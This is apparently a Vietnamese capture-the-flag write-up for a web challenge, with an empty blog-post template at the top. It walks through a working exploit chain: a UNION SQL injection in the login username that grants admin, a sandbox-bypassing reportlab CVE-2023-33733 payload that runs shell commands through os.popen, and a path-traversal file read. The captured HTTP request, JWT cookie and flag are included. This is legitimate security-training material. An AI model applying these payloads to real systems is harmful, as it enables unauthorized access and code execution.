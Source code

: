 ```yaml
---
title: TITLE
date: 'XXXX-XX-XX'
draft: false
authors: ['AUTHOR']
tags: ['XXX', 'YYY']
summary: 'XXX'
canonical: ''
---
```


## TITLE

## Table of Contents

1. [Source](#Source)
2. [Solution](#Solution)

## Main Content

### SQLi username

Ở đây thì khi login, ta thấy chương trình sẽ gọi tới hàm `getUser` trong database
```python
user, status = database.get_user(username, password)
```

Nhìn vào file `database.py`, ta thấy được cách hàm này hoạt động:

```python
def get_user(self, username, password):
    password_bytes = password.encode("utf-8")
    query = text(f"SELECT * FROM users WHERE username = '{username}'")
    print("Query:", query)
    user = self.session.execute(query).fetchone()
    if not user:
        return None, False
    if bcrypt.checkpw(password_bytes, user.password.encode("utf-8")):
        return user, True
    return None, False
```

Đoạn code trên bị lỗi SQL Injection ở chỗ `username` khi nó được truyền vào query mà không được escape. Để ý class user có dạng

```python
class Users(db):
    __tablename__ = "users"
    id = Column(Integer, primary_key=True, autoincrement=True)
    username = Column(String)
    password = Column(String)
    is_admin = Column(Boolean, default=True)
```

Như vậy để có thể login với user có quyền admin ta tạo tài khoản với user bất kỳ. Ở đây là `shisuite`, sau đó ta sẽ login với `username` như sau:

```
' union select id, username, password, 1 from users where username%3d'shisuite
```

Như vậy câu query sẽ trở thành
```
SELECT * FROM users WHERE username = '' union select id, username, password, 1 from users where username='shisuite'
```

Nó sẽ trả về user `shisuite` nhưng mà có quyền admin

### CVE-2023-33733
Do có chức năng liên quan tới chuyển file txt thành pdf trong file `app.py` (/convert, /view_pdf), mình đã cố tìm cách để có thể khai thác bằng cách tìm điểm yếu trong code nhưng hardcore vcl.

Sau cùng thì như HTB Machine Easy, có thể là nó sẽ có CVE nào đó, nên mình đã search google "python pdf cve" và ra ngay một con hàng trên đầu
```
https://github.com/c53elyas/CVE-2023-33733
```

Đây là CVE của reportlab (được sử dụng trong `convert_pdf.py`) có thể inject code vào pdf. Tuy nhiên thì mình thử kiểu gì cũng éo được. Sau cùng thì tư duy `mineme2` lại khiến mình thử diff lib reportlab của bài này với bản gốc xem có gì hay ho (cụ thể là bản 3.6.12)

Ở file `rl_safe_eval.py` đã filter hết các từ sau:
```python
__rl_unsafe__ = frozenset('''all any breakpoint builtins co_argcount co_cellvars co_code co_consts co_filename co_firstlineno 
							co_flags co_freevars co_kwonlyargcount co_lnotab co_name co_names co_nlocals co_posonlyargcount 
							co_stacksize co_varnames cr_await cr_code cr_frame cr_origin cr_running ctype enumerate filter frozenset 
							func_code func_defaults func_doc func_globals func_name f_back f_builtins f_code f_exc_traceback f_exc_type 
							f_exc_value f_globals f_lasti f_lineno f_locals f_restricted f_trace gi_code gi_frame gi_running gi_yieldfrom 
							globals hasattr im_class im_func im_self iter list locals map max min next pow range reversed set sorted 
							sum system tb_frame tb_lasti tb_lineno tb_next vars __annotations__ __code__ __defaults__ __func__ __globals__ 
							__iter__ __kwdefaults__ __module__ __name__ __qualname__ __self__'''.split()
```
Challenge đã filter `pow` và `system` nên ta sẽ đổi thành `popen` và `type` để bypass filter

Final payload:
```
<para> <font color="[ [ getattr(type,Word('__globals__'))['os'].popen('cat /flag*.txt > /tmp/hehe.pdf').read() for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'"> exploit </font> </para>
```

### LFI 

```python
@app.route("/view_pdf", methods=["GET"])
def view_pdf():
    token = request.cookies.get("token")
    if not token:
        return redirect(url_for("login"))
    
    try:
        jwt_payload = jwt.decode(token, JWT_KEY, algorithms=[JWT_ALG])
    except jwt.ExpiredSignatureError:
        return redirect(url_for("login"))
    except jwt.InvalidTokenError:
        return redirect(url_for("login"))
    
    if not jwt_payload.get("login"):
        return redirect(url_for("login"))
    
    if jwt_payload.get('login') and is_admin(jwt_payload):
        pdf_filename = request.args.get('f')
        if not pdf_filename:
            return render_template("error.html", title="Error", error="No file provided", redirect_url="/convert"), 400
        return send_file(os.path.join(UPLOAD_FOLDER, pdf_filename), as_attachment=False)
```

Đoạn code này bị LFI nên có thể đọc file bất kỳ, vậy exccute đưa flag ra `/tmp/konosec.pdf` và đọc file flag là xong

```
GET /view_pdf?f=/tmp/konosec.pdf HTTP/2
Host: hells.ehc-fptu.club
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsb2dpbiI6dHJ1ZSwidXNlcm5hbWUiOiJ0cnVuZ3BxIiwiaXNfYWRtaW4iOjF9.xhq-NmIQhPKFkV2Ua19nfn9esgEYIo2LvAac6g5kmvs
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: embed
Referer: https://hells.ehc-fptu.club/convert
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

HTTP/2 200 OK
Date: Wed, 11 Sep 2024 12:03:09 GMT
Content-Type: application/pdf
Content-Length: 59
Content-Disposition: inline; filename=hehe.pdf
Last-Modified: Wed, 11 Sep 2024 12:00:33 GMT
Cache-Control: no-cache
Etag: "1726056033.212105-59-540542130"
Vary: Cookie, Accept-Encoding
Set-Cookie: session=; Expires=Thu, 01 Jan 1970 00:00:00 GMT; Max-Age=0; Secure; HttpOnly; Path=/; SameSite=Lax
Cf-Cache-Status: BYPASS
Accept-Ranges: bytes
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=06L56Ghj9h69RbqcnkwHAsBPtIRla6BNeK7q2EU0nb6g1LF4XlRDZDQiWoZRcZYeB5%2BSArn%2BIHBIJDdDwRcXbY6FYLYVRSc5SqcdirAK2zE0%2B3M%2FZMya6IB1JNHiMRIBgxYVk4hQ"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Strict-Transport-Security: max-age=2592000
X-Content-Type-Options: nosniff
Server: cloudflare
Cf-Ray: 8c1783528c409ca7-SIN
Alt-Svc: h3=":443"; ma=86400

EHC{3asy_brute_f0rce_jwt_4nd_expl0it_ed1ted_CVE-2023-33733}
```
